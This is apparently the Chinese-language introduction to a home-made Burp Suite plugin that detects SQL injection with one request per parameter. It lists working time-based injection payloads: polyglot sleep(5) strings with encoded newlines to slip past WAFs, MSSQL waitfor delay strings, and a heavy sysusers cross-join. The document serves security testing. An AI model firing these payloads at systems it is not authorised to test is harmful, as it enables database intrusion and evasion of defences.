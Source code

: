 # 0x00 前言
Burp自带的SQLi扫描，发送的burp感觉有点多，在有waf的情况下，收到极大的限制。所以写一款适合自己的SQLi扫描插件（只发送一次数据包）。

# 0x01 检测原理
检测时间注入(减少发包量)，报错型注入(检测页面是否有sql错误提示，不需要发包)。
采用的payload是`11^%0axor(sleep(5))#'xor(sleep(5))#"^xor(sleep(5))#'`，浏览器中``11%0axor(sleep(5))%23'xor(sleep(5))%23"xor(sleep(5))%23'``,这样可以一次性检测数字型、字符型使用`'`或`"`作为分隔符的字符型)注入。不过`Insert`、`Limit`、`()`等一些注入，还没有找到好的办法进行检测。

payload
`11%0axor(sleep(5))%23'xor(sleep(5))%23"xor(sleep(5))%23'`

`5%0axor%0asleep(5)/*'xor%0asleep(5)xor%0a'"xor%0asleep(5)xor%0a"*/`

`5%0a-%0asleep(5)/*'-%0asleep(5)-%0a'"-%0asleep(5)-%0a"*/`

`5%2b-%20sleep(5)/*'-%20sleep(5)-%20'"-%20sleep(5)-%20"*/`

`') waitfor delay '0:0:5' --`
`) waitfor delay '0:0:5' --`

` and 1733=(SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7,sysusers AS sys8,sysusers AS sys9)  -- ' and 1= (SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7,sysusers AS sys8,sysusers AS sys9) -- s`
